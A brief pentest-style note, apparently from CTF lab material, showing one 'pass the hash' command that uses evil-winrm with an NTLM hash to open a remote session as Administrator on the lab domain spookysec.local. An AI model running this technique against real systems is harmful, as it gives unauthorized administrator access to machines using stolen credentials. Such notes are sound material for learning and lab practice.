 # evil-winrm

Pass the hash example:

```bash
evil-winrm -H 0e0363213e37b94221497260b0bcb4fc -i spookysec.local -u Administrator
```

